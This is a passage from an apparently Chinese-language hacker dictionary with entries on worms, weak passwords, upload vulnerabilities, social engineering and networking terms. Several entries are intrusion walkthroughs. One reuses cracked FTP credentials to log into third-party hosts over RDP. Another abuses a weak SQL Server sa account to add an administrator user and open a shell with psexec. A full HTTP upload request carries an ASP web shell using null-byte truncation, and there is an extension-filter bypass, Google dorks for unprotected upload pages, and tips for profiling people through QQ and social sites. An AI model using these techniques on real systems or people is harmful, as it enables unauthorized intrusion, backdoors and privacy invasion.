蠕虫病毒简称蠕虫，但蠕虫跟病毒其实又有很大的不同。对于病毒来说，它传播的途径是计算机的内部，也就是各个文件之间，通过感染各种【可执行文件】来达到传播的目的。这种方式是被动的，也就是说，如果我们不对这个计算机进行任何操作，它上面的病毒并不会主动传播到其他计算机。

而蠕虫则不同，它是主动去寻找可能感染的主机，被蠕虫感染的计算机即使不对它进行任何操作，只要计算机连接上网络，蠕虫就可能传播到其他的计算机上去。也就是说，蠕虫的传播途径不再是计算机内部，而是整个网络。

简单地说，蠕虫就是一个智能的攻击程序，它会自动寻找可能被感染的主机。而攻击的方式一般是通过系统漏洞，或者是群发带有蠕虫病毒的电子邮件。

对于前者，当蠕虫找到合适主机后然后入侵，接着复制自身再运行，进而继续传播。而后者是向大量的邮箱发送大量带有蠕虫的邮件；如果某个主机不幸染上这个蠕虫，那此蠕虫又会自动查找此主机上的其他邮件联系人，然后再向这些联系人发送带有蠕虫的邮件。因为这样不停地循环，所以威力无穷！相对传统的病毒来说，它的破坏力更大。

不同的蠕虫，利用的漏洞自然不同。像最著名的【冲击波】蠕虫病毒，就是利用 Windows 中的【RPC DCOM】组件漏洞；而 SQL 蠕虫王则是利用的【SQL SERVER】漏洞；【红色代码】是利用了微软 IIS 服务器软件的漏洞（idq.dll 远程缓冲区溢出）来传播。

蠕虫一般不采取利用 PE 格式插入文件的方法，而是复制自身在互联网环境下进行传播。病毒的传染能力主要是针对计算机内的文件系统而言，而蠕虫病毒的传染目标是互联网内的所有计算机。局域网条件下的共享文件夹、电子邮件 Email、网络中的恶意网页、大量存在着漏洞的服务器等，都成为蠕虫传播的良好途径。网络的发展也使得蠕虫病毒可以在几个小时内蔓延全球，而且蠕虫的主动攻击性和突然爆发性将使得人们手足无措。

当然，只要做好防范，蠕虫其实并不可怕。蠕虫传播的两个根本途径就是系统漏洞和邮件，所以只要打好系统的【补丁程序】，并装好必要的杀毒软件与【防火墙】，同时注意不要随意打开陌生的电子邮件，就可以有效地防范蠕虫病毒。

## 【入口点】调试技术

入口点是调试技术中经常要遇到的词语，简单地说它就是程序主函数开始执行的内存地址，执行程序都必须从入口点开始执行。

## 【软件防火墙】安全技术

软件防火墙的本质就是在操作系统上运行的一个程序，它通过特定的驱动来对流经网卡的数据包进行过滤或其他处理，其特点是价格低廉同时容易维护，比较适合个人用户。可由于其本身运行于操作系统之上，对底层许多协议的防范能力非常弱，所以某些防御只有【硬件防火墙】才能解决。

## 无忧启动盘XP管理器

应用程序

网吧中一种常用的【无盘】管理程序。

### 瑞星杀毒软件

安全技术，应用程序

国内著名的杀毒软件，相对于其他国内同行来说，有着较好的杀毒技术，官方网站为：http://www.rising.com.cn。

### 弱口令

安全技术

弱口令是黑客技术与安全技术中出现较多的词语，它代表着因设置简单而容易被猜解的口令。因为许多系统软件及其他服务器程序都需要设置口令，所以如果出现弱口令，则被攻陷的可能性大大增加。

常见的弱口令有：123456、admin、aaaa 等，而出现频率比较高的有 WINDOWS 登录弱口令、FTP 弱口令、SQL SERVER 弱口令、POP3 弱口令等，前三种弱口令都可能导致服务器被攻陷，下面我们来看看相关实例。

#### 一、FTP 弱口令攻击

先给出 FTP 弱口令的实例，其核心思路是利用【Hscan】的扫描结果，通过【UltraEdit】编辑器的处理后，得到一些非匿名用户的 FTP 口令，然后再对这些 IP 地址进行 3389 端口扫描。在得到开放 3389 端口的 IP 地址后，再返回去查找这些 IP 地址的 FTP 用户名和口令，并用这些用户名和口令来进行 3389 登录，详细步骤如下：

- 1、打开 Hscan.log 文件

在利用 Hscan 扫描完成后，打开 Hscan.log 文件，我们扫描的结果如图 R-3。该 log 文件是 Hscan 扫描以后的日志文件。虽然 Hscan 扫描完成以后会自动生成一个 html 文件，但由于一般扫描一个网段以后，生成的文件都会超过 1M 大小，这个时候查看 html 文件极为不方便，所以建议大家直接查看 log 文件。


图 R-3　Hscan.log 文件结构

log 文件中包含了扫描的所有信息，如果是单独针对 FTP 扫描，则文件中主要包含“IPaddress@ftpscan#Cracked”以及“IPaddress@ftpscan#banner”两行，其后面为对应的扫描结果，前者为破解的口令和账号，后者为 FTP 标识。

**说明：如果扫描时选择了其他模块，则会在 log 文件中有对应的标识。**

- 2、查找已经破解的账号

扫描完成后，使用 UltraEdit 打开 Hscan.log 文件，在菜单中单击“搜索”→“查找”，在“查找”中输入“Cracked account:”，并选中“列出包含字符串的行”，如图 R-4，然后单击“下一个”按钮。


- 3、复制查找结果

如果在 Hscan.log 中有“@ftpscan#Cracked account:”，UltraEdit 会自动列出所有包含该字符串的行，如图 R-5，单击“剪贴板”将所有查找结果复制到剪贴板上。


- 4、整理查找结果

在 UltraEdit 中新建一空白文件，然后将剪贴板上的内容粘贴到新文件中，如图 R-6。从 UltraEdit 编辑器底部我们可以看到，一共有 882 条（行）记录，每一个记录（行）对应一个账号。


- 5、对扫描结果进行处理

选中“@ftpscan#Cracked account:”，在 UltraEdit 编辑器中选择“搜索”→“替换”命令，打开“替换”窗口。在“查找”中输入“@ftpscan#Cracked account:”，“替换为”中输入四个空格，如图 R-7，然后单击“全部替换”。

替换完成以后，其结果如图 R-8，每一条记录中最前面是 IP 地址，后面依次为账号和口令，我保存结果到 210.good.log 文件中。

- 6、扫描 3389 端口


图 R-7　处理扫描结果


图 R-8　处理完毕的扫描结果

图 R-9　编辑扫描 3389 批命令

新建一个文件并将其保存为 `210.3389.txt`，然后选中并复制 `210.good.log` 文件中的所有内容到新建文件 `210.3389` 中，接着只选中 IP 地址，将其余内容全部删除，并在每一个 IP 地址前面输入“sfind -p 3389”。输入完毕后，其结果如图 R-9。

然后选中所有内容，将其复制到 DOS 命令提示符窗口进行执行，如图 R-10。

> 说明：在执行 sfind 命令时，要确保 sfind 命令能够执行。可以将 sfind.exe 文件复制到系统目录 system32 中，或者直接通过 cd 命令，到 sfind.exe 所在目录。

技巧：使用 `type sfind.txt | find "3389 listening" > 3389.txt` 命令，将 sfind 扫描结果文件 sfind.txt 中的所有开放 3389 端口记录生成到 3389.txt 文件中，如图 R-11。

- 7、查找口令并进行 3389 登录


依次选中 3389.txt 文件中的 IP 地址，然后在 210.good.log 文件中通过“查找”命令来查找相应的记录。在本案例中，我们找到 IP 地址 210.*.*.90 的记录，其用户名和口令分别为“test”和“123456”，如图 R-12 所示。


打开远程终端连接程序 mstsc.exe，输入 IP 地址、用户名以及密码，然后进行连接，顺利进入对方计算机，如图 R-13。


- 8、再次验证思路

在本案例中，为了再次验证我们的思路，随机选中了 210.*.*.16 IP 地址，在 210.good.log 文件中查找该 IP 地址记录，其中用户名和口令分别为“Administrator”和“admin”，如图 R-14 所示。在远程终端中输入 IP 地址、用户名和口令，依然连接成功，如图 R-15。


## 二、SQL SERVER 弱口令攻击

在网络入侵过程中，对数据库的攻击也是典型的攻击手段之一，加之目前市面上很多安全检测和入侵软件均具有数据库口令扫描功能，一旦获取了数据库中的 sa 用户的口令，入侵者可以执行添加用户等危险命令，使得数据库很容易被入侵者完全控制。

现在我们来看看利用 SQL SERVER 的弱口令进行攻击。SQL Server 2000 数据库一般都是安装在 WINDOWS Server 操作系统中，常见的攻击步骤如下。

- 1、设置 Hscan

运行 Hscangui 程序后，分别设置一个扫描 IP 段的起始 IP 和结束 IP，然后在扫描模块中只选中“check MSSQL weak accounts”选项，如图 R-16。设置完毕后，在菜单中单击“start”命令进行扫描。


图 R-16

- 2、查看扫描结果

通过 Hscan 扫描后，有三个地方存放扫描结果：一个是 Reports 文件夹下的 html 文件；一个是 log 文件夹下的 Hscan.log 文件；最后一个是在 Hscan 扫描窗口左下方区域，该区域中显示了 IP 地址、用户名（username）、口令（password）以及类型（type），如图 R-17 所示。


图 R-17

### 说明：

- 1. Hscan.log 文件是每次扫描完成后保存信息的缺省文件，每扫描完一次就自动覆盖其中内容。结束后必须更改文件名称或者另存为其他文件。
- 2. 关闭 Hscangui 程序后，Hscan 扫描区域左下方的扫描结果会自动清除。

- 3、连接数据库

选中类型为“MSSQL”的记录，在扫描结果区域按鼠标左键，选择“connect”命令直接连接数据库，连接成功后如图 R-18。


图 R-18

**注意：**在选择记录时一定要小心，右键是清除（clean）记录命令，左键是连接（connect）命令，清除扫描结果以后不能再恢复。

- 4、执行命令

在 Sqlcmd 提示符下分别输入命令“net user”、“net user aspnet aspnet2005”以及“net localgroup administrators aspnet /add”，意思是查看并添加“aspnet”用户，口令为“aspnet2005”，并提升“aspnet”用户的权限到 Administrators 组中，如图 R-19。


图 R-19

### 说明：

由于这种弱口令的 MSSQL 服务器极有可能被多个人侵者攻击，他们有可能会将一些存储过程删除掉，导致 Sqlcmd 能够连接但是却不能执行命令。这个时候我们可以通过 SQL 查询分析器连接该数据库，连接成功后查看数据库中表的内容（例如 user 表等），并配合 Web 来实施控制。数据库中的一些表包含用户名和密码等信息。

- 5、执行其他控制命令

如果对方开放了 NETBIOS 服务的话，可以在 DOS 命令提示符中输入“psexec \\218.*.*.212 cmd -u aspnet -p aspnet2005”命令搞出一个 DosShell，这样就可以在该 Shell 中上传木马程序、开启 3389 远程终端服务等。

### 赛门铁克

即 SYMANTEC 的中文直译，赛门铁克公司是世界上最著名的安全公司之一，它成立于 1982 年，是互联网安全技术的全球领导厂商，为企业、个人用户和服务供应商提供广泛的内容和网络安全软件及硬件的解决方案。这其中包括：病毒防护、防火墙、VPN、风险管理、入侵检测、互联网内容及电子邮件过滤、远程管理技术及安全服务等。

赛门铁克旗下的诺顿品牌是个人安全产品全球零售市场的领导者，在行业中屡获奖项。赛门铁克公司总部设在加利福尼亚的 Cupertino，现已在数十个国家设有分支机构。

### 杀毒软件

杀毒软件也称反病毒软件，它是对于消除电脑病毒、特洛伊木马和恶意软件，并保护电脑安全、网络安全等一类软件的总称。杀毒软件通常集成监控识别、病毒扫描和清除、自动升级等功能。有的杀毒软件还带有数据恢复及防火墙等功能。

杀毒软件的主要任务是实时监控和扫描磁盘，部分杀毒软件通过在系统添加驱动程序的方式进入系统，并且随操作系统启动。

杀毒软件的实时监控方式因软件而异。有的杀毒软件，是通过在内存里划分一部分空间，将电脑运行程序时所进入这个空间的数据与杀毒软件自身所带的病毒库（包含病毒定义）的【特征码】相比较，以此判断该程序是否为病毒。另一些杀毒软件则在所划分到的内存空间里面，虚拟执行系统或用户提交的程序，根据其行为或结果作出判断。

而扫描磁盘的方式，则和上面提到的实时监控的第一种工作方式一样，只是在这里杀毒软件会将磁盘上所有的文件（或者用户自定义的扫描范围内的文件）做一次检查。

另外，杀毒软件的设计还涉及很多其他方面的技术，部分技术条目如下：

- 1. **脱壳技术**，即是对压缩文件和封装好的文件作分析检查的技术。因为许多病毒或木马为了逃过杀毒软件的检测，都会层层加【壳】，所以越来越多的杀毒软件已经集成这方面的技术功能。
- 2. **自身保护技术，避免病毒程序杀死自身进程**。许多病毒与木马都具有自行关闭杀毒软件的功能，所以杀毒软件必须学会保护自己进程。
- 3. **修复技术**，对被病毒损坏的文件进行修复。
- 4. **虚拟机技术**，很多时候病毒或木马要运行后才能根据其行为判断是否为病毒，所以杀毒软件必须要先虚拟出一个运行环境来测试可疑程序，让其运行后也不会对本机产生影响。

国外著名的杀毒软件有：BitDefender、Kaspersky、McAfee、Norton AntiVirus 等。

国内著名的杀毒软件有：瑞星杀毒软件、江民杀毒软件、金山毒霸等。

### 扇区

磁盘上的每个磁道被等分为若干个弧段，这些弧段便是磁盘的扇区。磁盘驱动器在向磁盘读取和写入数据时，要以扇区为单位。其他情况请见【磁盘】词条。

### 上传页面

即有上传功能的页面，最容易成为一个服务器的薄弱环节。很多时候如果这个页面的权限控制没有设置好，以至于匿名用户能够访问的话，就会对服务器造成极大的威胁。同时，即使限制了上传文件的格式，但没有防范上传漏洞的话，也会是一个重大的安全隐患。详情请见【上传漏洞】词条。

## HACK TIPS:

有时候，一些网站的管理员为了图方便，会在某个位置放置一个不为人注意的上传页面，这种页面很可能根本就没有任何认证措施。常见的寻找思路就是利用 Google Hack，在 Google 里输入：“site:目标网站 intext:upload 上传”或者“site:目标网站 inurl:upload”，都可能找到有用的信息，如图 S-1。


## 上传漏洞攻击方法与行为

上传漏洞是一种非常典型的 Web 程序漏洞，它在某些时候比 SQL 注入更具有杀伤力。通过 SQL 注入所得到的往往是数据库中的一些敏感信息，如管理员名称、密码等等。但上传漏洞就不同了，它可以把 ASP、JSP、CGI、PHP 等格式的 WebShell 上传至网站目录内，这样就可以轻易地得到一个 WebShell。

上传漏洞现在有几种形式，先讲一下最早出现的利用方法，就是 `\0` 截断字符的利用方式。以前在很多论坛中，上传页面的 ASP 代码如下：

```vb
======== 无组件上传(upload_0) ========
sub upload_0()
set upload=new UpFile_Class  ' 建立上传对象
upload.GetDate(int(iForum_Setting(56))/1024)  ' 取得上传数据，不限大小
iCount=0
if upload.err > 0 then
    select case upload.err
    case 1
        Response.Write "请先选择你要上传的文件 [<a href=# onclick=history.go(-1)>重新上传</a>]"
    case 2
        Response.Write "图片大小超过了限制 "&iForum_Setting(56)&"K [<a href=# onclick=history.go(-1)>重新上传</a>]"
    end select
    exit sub
else
    formPath=upload.form("filepath")
    '' 在目录后加/
    if right(formPath,1)<>"/" then formPath=formPath&"/"
    for each formName in upload.file  ''列出所有上传了的文件
        set file=upload.file(formName) ''生成一个文件对象
        if file.filesize<100 then
            response.write "请先选择你要上传的图片 [<a href=# onclick=history.go(-1)>重新上传</a>]"
            response.end
        end if
        fileExt=lcase(file.fileExt)
        if CheckFileExt(fileExt)=false then
            response.write "文件格式不正确 [<a href=# onclick=history.go(-1)>重新上传</a>]"
            response.end
        end if
        randomize
        ranNum=int(90000*rnd)+10000
        filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
        if file.FileSize>0 then  ''如果 FileSize > 0 说明有文件数据
            file.SaveToFile Server.mappath(filename) ''保存文件
            response.write file.FilePath&file.FileName&" ("&file.FileSize&") => "&formPath&File.FileName&" 成功!<br>"
            response.write "<script>parent.document.forms[0].myface.value='"&FileName&"'</script>"
            iCount=iCount+1
        end if
        set file=nothing
    next
    set upload=nothing
    session("upface")="done"
    Htmend iCount&" 个文件上传结束!"
end if
end sub
```

在上面代码中可以看到这样一句：

```vb
filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
```

这里 filename 是保存的文件名，它是依照上传时间来命名的，最后的扩展名是表单中提交过来的文件的扩展名。但是程序中对提交文件的类型做了限制，显然想直接上传 ASP 文件是不可行的，但后缀又从哪里来呢？我们可以在 reg_upload.asp 文件中找到这样的代码：

```html
<form name="form" method="post" action="upfile.asp" enctype="multipart/form-data">
<input type="hidden" name="filepath" value="uploadFace">
<input type="hidden" name="act" value="upload">
<input type="file" name="file1">
<input type="hidden" name="fname">
<input type="submit" name="Submit" value="上传" onclick="fname.value=file1.value,parent.document.forms[0].Submit.disabled=true,parent.document.forms[0].Submit2.disabled=true;">
</form>
```

可以看到，程序是提取 file1 表单和 fname 表单中的值来做判断的。也就是说，直接从页面提交我们的 ASP 文件是行不通的，但是如果重新构造数据包的话就不一样了，我们完全可……以通过构造出新的数据包来绕过这个限制，从而将提交的 file1 表单和 fname 表单项的值改成合法的文件名称，这样就可以绕过文件类型的检测了。

下面就是这个上传漏洞产生的关键一句：

```
formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
```

这句话将一段字符串合并起来，因为我们能改的就是 formPath 这个参数，而在计算机中检测字符串的关键就是看是否碰到“\0”字符。

如果是，则认为字符串结束了，也就是说我们在构造上传文件保存路径时，只要欺骗计算机让它认为上传路径为“uploadface\cody.asp”，就能达到直接将文件保存为我们定义的文件名的目的。

因此，我们要做的是在构造的数据包中，将表单中的 filepath 改成类似 uploadface\cody.asp'\0' 的字符串，然后发送出去就行了。这样，计算机取得后缀名时检测到“\0”就停止了，它会把 .asp 作为 fileExt，然后保存。

为了实现这一想法，必须先了解一下 POST 数据时的【数据包】是怎么样的。我们用 WSOCKEXPERT 抓包后，数据信息如下：

```
POST /forum/upfile.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Referer: http://192.168.10.101/a.asp?a=http://uyee.com/forum/upfile.asp
Accept-Language: zh-cn
Content-Type: multipart/form-data; boundary=-----------------------------7d4a325500d2
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; MyIE2; .NET CLR 1.1.4322; .NET CLR 1.0.3705)
Host: uyee.com
Content-Length: 1593
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDQCAQBAQT=NBDJCEFCMIICLJBJKHKMHJEF
-------------------------------7d4a325500d2
Content-Disposition: form-data; name="filepath"
uploadFace\zwell.asp
-------------------------------7d4a325500d2
Content-Disposition: form-data; name="act"
upload
-------------------------------7d4a325500d2
Content-Disposition: form-data; name="file1"; filename="C:\1.gif"
Content-Type: text/plain

<%dim objFSO%>
<%dim fdata%>
<%dim objCountFile%>
<%on error resume next%>
<%Set objFSO = Server.CreateObject("Scripting.FileSystemObject")%>
<%if Trim(request("syfdpath"))<>"" then%>
<%fdata = request("cyfdata")%>
<%Set objCountFile=objFSO.CreateTextFile(request("syfdpath"),True)%>
<%objCountFile.Write fdata%>
<%if err =0 then%>
<%response.write "<font color=red>save Success </font>"%>
<%else%>
<%response.write "<font color=red>Save UnSuccess!</font>"%>
<%end if%>
asp
<%end if%>
<%objCountFile.Close%>
<%Set objCountFile=Nothing%>
<%Set objFSO = Nothing%>

<%Response.write "<form action='' method=post>"%>
<%Response.Write "<input type=text name=syfdpath width=32 size=50>"%>
<%Response.Write "<br>"%>
<%=server.mappath(Request.ServerVariables("SCRIPT_NAME"))%>
<%Response.write "<br>"%>
<%Response.write "<textarea name=cyfdata cols=80 rows=10 width=32></textarea>"%>
<%Response.write "<input type=submit value=save>"%>
<%Response.write "</form>"%>

------------------------------7d4a325500d2
Content-Disposition: form-data; name="fname"
C:\1.gif
------------------------------7d4a325500d2
Content-Disposition: form-data; name="Submit"
上传
------------------------------7d4a325500d2--
```

上面的数据包只要改以下两个地方就好了：

- 1. Content-Disposition: form-data; name="file1"; filename="C:\1.gif"
- 2. Content-Disposition: form-data; name="fname"

这里只要将 1.gif 改为 cody.asp\0.jpg 就可以了，但是如何加一个空字符呢？用 UltraEdit 是个好方法。运行工具后，用 16 进制编辑，因为 '\0' 这个字符也占一个位置，所以我们先输入一空格，然后再在 UltraEdit 里将对应空格符的 20 改成 00。

改完后还要注意这一句：Content-Length: 1593。因为前面我们加了 .asp\0 四个字符，所以必须将 Content-Length 加 4，改成 1597，然后用 NC 提交就可以了。

对于上传漏洞的查找，仍是从源文件入手，目标有两个，一个是 FilePath（文件路径），另一个则是 FileName（文件名称）。

由于上述的上传漏洞危害极大，早就已经被大部分论坛程序处理好了，而后来又出现了一种新的利用方式，来看一下这个上传文件 Upfile.asp 中的部分源码：

```
asp
<%
Private Sub SaveFile_0()  ' // 无组件上传

Set File = UploadObj.File(FormName)   ' // 取得上传文件名
FileExt = FixName(File.FileExt)       ' // 第一步，用 FixName 函数过滤上传文件的扩展名
If CheckFileExt(FileExt) = False then ' // 第二步，用 CheckFileExt 检查过滤后的文件扩展名
    ErrCodes = 5
    EXIT SUB  ' // 退出上传
End if
FileName = FormatName(FileExt)        ' // 符合条件的话，就用 FormatName 函数按日期生成文件名

If File.FileSize > 0 Then
    File.SaveToFile Server.MapPath(FilePath & FileName)  ' // 保存的文件路径及名称是 FilePath+FileName
End Sub
%>
```

下面再来看一下上传所涉及到的一些参数。

## A、FixName() 函数

```
Private Function FixName(Byval UpFileExt)  ' // 第一步的过滤函数，过滤特殊扩展名
If IsEmpty(UpFileExt) Then Exit Function  ' // 如扩展名为空就退出交互
FixName = Lcase(UpFileExt)  ' // 将扩展名转换为小写字符
FixName = Replace(FixName, Chr(0), "")  ' // 将二进制的\x00 空字符过滤为空
FixName = Replace(FixName, "'", "")  ' // 将单引号过滤为空，下同
FixName = Replace(FixName, "\", "")
FixName = Replace(FixName, ".asp", "")
FixName = Replace(FixName, ".asa", "")
FixName = Replace(FixName, ".aspx", "")
FixName = Replace(FixName, ".cer", "")
FixName = Replace(FixName, ".cdx", "")
FixName = Replace(FixName, ".htr", "")
FixName = Replace(FixName, ".shtml", "")
End Function
```

从以上代码我们可以看出，应用程序 asp.dll 映射的类型全部过滤了，除此之外，还有小数点、单引号也被过滤，甚至连 Chr(0) 都过滤了。

**Chr(0) 是什么？它就是 16 进制的 0x00，表示为二进制是 00000000，也就是前面在 FilePath 上传漏洞中大显神通的空字符。**

## B、CheckFileExt() 函数

```
Private Function CheckFileExt(FileExt)  ' // 第二步的判断函数，判断文件类型是否合乎要求
Dim Forumupload,i
CheckFileExt=False  ' // 定义 CheckFileExt 的初始值为假
If FileExt="" or IsEmpty(FileExt) Then  ' // 第一次，为空则退出
    CheckFileExt = False
    Exit Function
End If
If FileExt="asp" or FileExt="asa" or FileExt="aspx" or FileExt="shtml" Then  ' // 第二次，如果属于这四种类型也退出交互
    CheckFileExt = False
    Exit Function
End If
Forumupload = Split(InceptFile, ",")  ' // 第三次，从 InceptFile 中提取后台的上传扩展名
For i = 0 To ubound(Forumupload)  ' // 用 For 循环检验
    If FileExt = Trim(Forumupload(i)) Then  ' // 如果和后台中的任一上传扩展名相符，则 CheckFileExt = True。
        CheckFileExt = True
        Exit Function
    Else
        CheckFileExt = False
    End If
Next
End Function
```

这个函数对经过 FixName() 函数过滤后的扩展名再次判断，其中有三次检查，第一次是判断传递而来的扩展名是否为空，为空则退出上传；第二次是判断扩展名是否属于 asp、asa 等四种限制类型，属于也退出上传；第三次就是用该扩展名同后台内自定义的上传扩展名进行对比，符合就允许上传。

## C、FilePath 值

我们找到的 filepath 在 upload.asp 中，其值如下：

```
if info_name="bbs" then
    FilePath = "/bbs/upload/"
else
vb
FilePath = "/uploadpic/"
end if
```

FilePath 是一个常量，看来从这条路找漏洞是行不通的了。我们可以通过上传一个文件来看其验证流程，比如上传的文件名为“111.cer”，在用“FileExt = FixName(File.FileExt)”过滤扩展名时，因为 cer 属于 FixName() 函数的过滤范围，所以扩展名 cer 就成了空。

当把这个空的扩展名传递给 CheckFileExt()，在其进行到“If FileExt="" or IsEmpty(FileExt)”语句时，就会因为 FileExt 为空而退出交互，返回“格式不正确，拒绝上传。”

如何突破呢？其突破点就在 FixName() 函数中！前面我们也看到，在上传时 cer 会被过滤为空，但如果我们把上传文件扩展名改为 ccerer，同时在后台的自定义上传类型中增加“ccerer”“cer”，这样，扩展名为 ccerer 的文件在经过第一步 FixName() 的过滤后，ccerer 就变成了 cer（中间的 cer 字符被过滤为空了）。

传递此值到 CheckFileExt() 函数中，通过其第一次不空的关卡，再通过第二次限制类型的关卡，最后到对比后台上传类型关卡。因为在前面我们已添加了“ccerer”“cer”两种类型，那么也就通过 CheckFileExt() 第三次的判断，CheckFileExt = True，这样就把扩展名为 ccerer 的文件上传到服务器中了，并且上传后的扩展名是 cer。

## 上兴远程控制 黑客工具

上兴远程控制是继灰鸽子停止开发后，新晋的强大反弹式木马，其功能较之灰鸽子有过之而无不及，基本上把能想到的功能都放上去了，界面也与灰鸽子相仿，如图 S-2。


图 S-2

## 社会工程学 特定名称

社会工程学可以说是黑客技术中最富有人情味的技术了，在更多的时候它实则是一门艺术。下面是对于社会工程学的一个比较准确的定义。

> 社会工程学的关键是建立理论，通过自然的、社会的和制度上的途径，并特别强调根据现实的双向计划和设计经验，来一步一步地解决各种社会问题。
>
> 总体上来说，社会工程学就是使人们顺从你的意愿、满足你的欲望的一门艺术与学问。它并不是单纯的一种控制意志的途径；它不能帮助你掌握人们在非正常意识以外的行为，且学习与运用这门学问一点也不容易。它蕴涵了各式各样灵活的构思与变化着的因素。

**无论任何时候，在需要查取到所需要的信息之前，社会工程学的实施者都必须：掌握大量的相关知识基础、花时间去从零资料的收集与进行必要的（如交谈性质的）沟通行为。**

与以往的人侵行为相类似，社会工程学在实施以前都要完成很多相关的准备工作的，这些工作甚至要比其本身还要更为繁重！社会工程学是定位在计算机信息安全工作链路的一个最脆弱的环节上的。我们经常讲：最安全的计算机就是已经拔去了插头的那一台。事实上，你可以去说服某人把这台非正常工作状态下的、容易受到攻击的机器接上插头并启动。利用社会工程学，可以攻破许多在安全配置上似乎无懈可击的主机，因为社会工程学的主要对象是人，它是利用人的弱点来进行攻击的，也可以看出，“人”这个环节在整个安全体系中是非常重要的，这不像地球上的计算机系统，不依赖他人手动干预。由此就意味着，这一点信息安全的脆弱性是普遍存在的，它不会因为系统平台、软件、网络，或者是设备的年限等因素不同而有所差异。

无论是在物理上还是在虚拟的电子信息上，任何一个可以访问系统某个部分（注释：某种服务）的人都有可能构成潜在的安全风险与威胁！任何细微的信息都可能会被社会工程学使用者用作“补给资料”来运用，使其得到其它的信息。这意味着没有把“人”（注释：这里指的是使用者/管理人员等的参与者）这个因素放进企业安全管理策略中去的话将会构成一个很大的安全“裂缝”。

系统以及程序所带来的安全往往是可以避免的，而在人性以及心理方面来说，社会工程学往往利用人性脆弱点，以及贪婪心理等的表现进行攻击，是防不胜防的。社会工程学是一种与普通的欺骗/诈骗方式不同层次的手法，因为社会工程学需要搜集大量的信息，针对对方的实际情况进行心理战术的一种手法。

社会工程学囊括的范围还是很大，以其为核心而慢慢伸延出来的【钓鱼攻击】、密码心理学等，就是比较常见的手法了。

#### HACK TIPS

正如上面所说，真正的社会工程学是一门艺术，你要全面收集目标的信息，并利用你的智慧获得你想要的信息。获得信息的方法有很多，常见的有以下几种：

- 灵活地利用搜索引擎  
  对方最常使用的网名是什么？最常使用的 E-MAIL 是哪个？QQ 号是多少？最喜欢去的网站是哪里？这些问题都可以让搜索引擎来告诉你！例如，你在某论坛看到某一篇帖子，想调查这个作者的情况，便可以直接搜索这个帖子的名字，通过快照出现的时间可以确定这个帖子最初出现的地方，然后顺藤摸瓜得到作者的网名，接着再搜索网名，获取更多的信息。
- 利用 QQ 号进行详细的信息刺探  
  强大的腾讯为用户们提供了很多服务，QZONE、相册、QQ 秀等等，通过这些服务，只要知道对方的 QQ 号就能够得到许多私人的信息，利用这些信息可以轻易地与其拉近距离并得到你想要的东西。
- 利用社交网站  
  现在社交网站如雨后春笋，校内网、开心网都是其中的佼佼者；特别是校内网，对于一个学生来说，只要您知道了他的真实姓名就很可能得到许多具体信息，比如他的学校、院系、甚至爱好！当有了这些信息后，想接近他或她，就不是难事了。

## 十六进制 黑客技术基础

十六进制是计算机中数据的一种表示方法，它由 0-9、A-F 组成，与 10 进制的对应关系如下：

- 0-9 对应 0-9；
- A-F 对应 10-15。

N 进制的数可以用 0——（N-1）的数表示，超过 9 的用字母 A-F。例如：10 进制的 32 表示成 16 进制就是 20。

## 实时监控 安全技术

实时监控是【杀毒软件】常常用到的技术，详情请看“杀毒软件”词条。

## 手工脱壳 加密解密

# 黑客词典

手工脱壳就是用 TRW2000、SOFTICE、OD 等调试工具来进行逐步调试并脱壳，这对脱壳者的技术及经验有一定的要求，涉及到很多汇编语言和软件调试方面的知识。

## 守护进程｜操作系统及其相关，病毒与恶意软件

守护进程有两个不同的概念，一个是指在 UNIX/LINUX 系统中启动引导时开启的服务，这些守护进程是脱离于终端并且在后台运行的进程。守护进程脱离于终端是为了避免进程在执行过程中的信息在任何终端上显示，并且进程也不会被任何终端所产生的终端信息所打断。

而另一个是指在一些病毒中，为了防止自身的进程被关闭而产生的【进程】。这种进程时刻监视着病毒主程序是否还存在，一旦被终止则马上产生新的进程。在很多时候，这种守护进程有两个，彼此照应，一旦发现病毒主程序或另一个守护进程被关闭，则马上生成新的进程。

## 输入法漏洞｜渗透技术

输入法漏洞是一个十分古老而经典的漏洞，技术原理并不复杂，但很好地体现了黑客技术的思想。这个漏洞在 Windows 2000 出来后不久就被发现，由于其一学就会的原因，使很多站点被一些刚入门的新手所攻破，下面简要地介绍一个利用方法。

在安装 Windows 2000 简体中文版的过程中，默认情况下同时安装了各种简体中文输入法，这些随系统装入的输入法可以在系统登录界面中使用，以便用户能使用基于字符的用户标识和密码登录到系统，如图 S-3。在这种情况下，系统应限制提供给用户的某些功能。


图 S-3

然而，在默认安装的情况下，Windows 2000 中的简体中文输入法不能正确地检测当前的状态，导致在系统登录界面中提供了不应有的功能。进而，一些别有用心的用户可以通过直接操作该计算机的键盘得到当前系统权限，运行他选择的代码，更改系统配置、新建用户、添加或删除系统服务、添加、更改或删除数据，甚至执行其他操作。

利用这个方法在当时可以轻易地进入一些开有【终端服务】的服务器，然后为所欲为。当然，现在早已不可能找到这样的服务器了。

## 数据包｜黑客技术基础

数据包（packet）是网络中数据封装的基本单元，它是网络上数据传输中的完整个体，并且数据包只能在 OSI 参考模型中的传输层及其以上的层面进行传输。它与另一个重要的传输概念【帧】之间的关系可以用一个比喻加以说明：

我们在邮局邮寄产品时，虽然产品本身带有自己的包装盒，但是还必须把内装产品的包装盒放入邮局指定的专用纸箱里，这样才能够邮寄。这里，产品包装盒相当于数据包，里面放着的产品相当于可用的数据，而专用纸箱就相当于帧，且一个帧中只有一个数据包。

### 数据报

数据报（datagram）是指在 OSI 参考模型中的数据链路层传输的数据。数据包是一个可以发送的数据体，也就是说这个体已经可以在链路层上传输了。而数据报则可以看作数据包的一部分，比如一个 ARP 数据包，就包含以太网报文和 ARP 报文，其中的报文就可以看作是数据报。

**数据包是传输层以上的数据统称，链路层的数据叫数据报。总之，数据包是统称，而数据报是数据包在无连接协议时的特殊形式。**

### 数字型

这个词语是 SQL 注入时经常碰到的概念，在许多注入工具中都会看到这个词，它指的是注入的那个数据所在的【字段】的类型，一般分为数字型与字符型，如图 S-4，这两种注入方式有少许不同。

